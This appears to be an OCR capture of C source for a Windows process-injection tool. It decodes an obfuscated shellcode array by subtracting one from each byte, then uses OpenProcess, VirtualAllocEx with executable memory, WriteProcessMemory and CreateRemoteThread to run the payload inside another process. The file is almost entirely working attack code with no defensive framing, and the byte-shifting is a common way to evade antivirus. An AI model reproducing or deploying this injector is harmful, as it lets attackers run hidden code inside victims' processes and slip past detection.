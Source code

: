 ```
	unsigned char code[] = "\xfd\x49\x84\xe5\xf1\xe9\xc1\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\xff\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\xff\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x58\xff\xff\xff\x5e\x4a\xbf\x78\x74\x33\x60\x34\x33\x1\x1\x42\x57\x4a\x8a\xe7\x49\x82\xed\xa1\x2\x1\x1\x4a\x8a\xe6\x4a\xbd\x3\x1\x12\x5d\xc1\xa9\x2\x5\x42\x55\x4a\x8a\xe5\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\xff\xd6\x4d\x8a\xeb\x69\x2\x2\x1\x1\x5a\x42\xbb\x2a\x81\x6c\x1\xff\xd6\x51\x51\x4e\x32\xca\x4e\x32\xc1\x49\xff\xc1\x49\x8a\xc3\x49\xff\xc1\x49\x8a\xc2\x42\xbb\xeb\x10\xe0\xe1\xff\xd6\x49\x8a\xc8\x6b\x11\x42\x59\x4d\x8a\xe3\x49\x8a\xfa\x42\xbb\x9a\xa6\x75\x62\xff\xd6\x49\x82\xc5\x41\x3\x1\x1\x4a\xb9\x64\x6e\x65\x1\x1\x1\x1\x1\x42\x51\x42\x51\x49\x8a\xe3\x58\x58\x58\x4e\x32\xc1\x6b\xe\x5a\x42\x51\xe3\xfd\x67\xc8\x45\x25\x55\x2\x2\x49\x8e\x45\x25\x19\xc7\x1\x69\x49\x8a\xe7\x57\x51\x42\x51\x42\x51\x42\x51\x4a\xff\xc1\x42\x51\x4a\xff\xc9\x4e\x8a\xc2\x4d\x8a\xc2\x42\xbb\x7a\xcd\x40\x87\xff\xd6\x49\x32\xd3\x49\xff\xcb\x8c\xf\x42\xbb\x9\x88\x1e\x61\xff\xd6\xbc\xe1\x1e\x2b\xb\x42\xbb\xa7\x96\xbe\x9e\xff\xd6\x49\x84\xc5\x29\x3d\x7\x7d\xb\x81\xfc\xe1\x76\x6\xbc\x48\x14\x73\x70\x6b\x1\x5a\x42\x8a\xdb\xff\xd6";

	int i;
	for(i=0;i<sizeof(code)-1;i++){
		if (code[i] == 255){
			code[i] = code[i];
		}
		else{
			code[i] = code[i] - 0x01;
		}
	}

	HANDLE process_handle;
	DWORD pointer_after_allocated;
	process_handle =  OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);

	if (process_handle==NULL){
		puts("[-]Error while open the process\n");
	}else{
		puts("[+] Process Opened sucessfully\n");
	}

	pointer_after_allocated = VirtualAllocEx(process_handle, NULL , sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	if(pointer_after_allocated==NULL){
		puts("[-]Error while get the base address to write\n");
	}else{
		printf("[+]Got the address to write 0x%x\n", pointer_after_allocated);
	}

	if(WriteProcessMemory(process_handle, (LPVOID)pointer_after_allocated, (LPCVOID)code, sizeof(code), 0)){
		puts("[+]Happened\n");
		puts("[+]Running the code as new thread !\n");
		CreateRemoteThread(process_handle, NULL, 100,(LPTHREAD_START_ROUTINE)pointer_after_allocated, NULL, NULL, 0); 
	}else{
		puts("Not Happened\n");
	}

}
```
